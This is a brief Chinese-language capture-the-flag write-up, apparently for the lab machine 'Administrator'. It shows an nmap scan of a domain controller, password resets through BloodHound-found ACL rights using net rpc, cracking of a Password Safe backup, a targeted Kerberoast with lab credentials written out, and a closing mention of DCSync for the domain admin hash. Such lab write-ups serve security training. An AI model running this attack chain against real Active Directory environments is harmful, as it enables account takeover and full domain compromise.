

```bash
PORT      STATE SERVICE          REASON
21/tcp    open  ftp              syn-ack ttl 127
53/tcp    open  domain           syn-ack ttl 127
88/tcp    open  kerberos-sec     syn-ack ttl 127
135/tcp   open  msrpc            syn-ack ttl 127
139/tcp   open  netbios-ssn      syn-ack ttl 127
389/tcp   open  ldap             syn-ack ttl 127
445/tcp   open  microsoft-ds     syn-ack ttl 127
464/tcp   open  kpasswd5         syn-ack ttl 127
593/tcp   open  http-rpc-epmap   syn-ack ttl 127
636/tcp   open  ldapssl          syn-ack ttl 127
3268/tcp  open  globalcatLDAP    syn-ack ttl 127
3269/tcp  open  globalcatLDAPssl syn-ack ttl 127
5985/tcp  open  wsman            syn-ack ttl 127
9389/tcp  open  adws             syn-ack ttl 127
47001/tcp open  winrm            syn-ack ttl 127
49664/tcp open  unknown          syn-ack ttl 127
49665/tcp open  unknown          syn-ack ttl 127
49666/tcp open  unknown          syn-ack ttl 127
49667/tcp open  unknown          syn-ack ttl 127
49669/tcp open  unknown          syn-ack ttl 127
54747/tcp open  unknown          syn-ack ttl 127
54752/tcp open  unknown          syn-ack ttl 127
54762/tcp open  unknown          syn-ack ttl 127
54777/tcp open  unknown          syn-ack ttl 127
54809/tcp open  unknown          syn-ack ttl 127
62314/tcp open  unknown          syn-ack ttl 127
```

根据默认账户密码先走一遍bloodhound收集信息，简单看一眼，第一条攻击路径如下

```
olivia -[GenericAll]-> michael -[ForceChangePassword]-> benjamin
```

```
net rpc password "michael" "newP@ssword2024" -U "administrator.htb"/"Olivia"%"ichliebedich" -S "dc.administrator.htb"

net rpc password "benjamin" "newP@ssword2024" -U "administrator.htb"/"michael"%"newP@ssword2024" -S "dc.administrator.htb"
```

用 `benjamin` 登录 ftp，拿到一个psafe文件，转为john支持的格式然后爆破拿到密码，使用密码打开这个psafe文件然后得到三个用户的密码

```
pwsafe2john Backup.psafe3 > Backup.psafe3.john
```

验证完毕之后只有emily的密码是有效的

`emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb`

继续查看bloodhound，使用 [[Targeted Kerberoast]] 攻击ethan账户

```
targetedKerberoast.py -v -d 'administrator.htb' -u "emily" -p "UXLCI5iETUsIBoFVTj8yQFKoHjXmb"
```

`ethan:limpbizkit`

[[DCSync]] 拖到域管理员hash